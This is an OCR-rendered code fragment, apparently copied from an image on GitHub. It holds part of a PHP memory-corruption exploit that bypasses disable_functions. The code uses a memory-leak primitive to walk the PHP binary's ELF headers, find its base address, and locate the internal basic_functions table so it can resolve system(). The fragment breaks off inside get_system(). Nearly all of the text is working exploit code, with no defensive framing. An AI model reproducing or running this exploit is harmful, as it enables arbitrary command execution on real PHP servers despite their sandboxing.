```
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { 

                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
```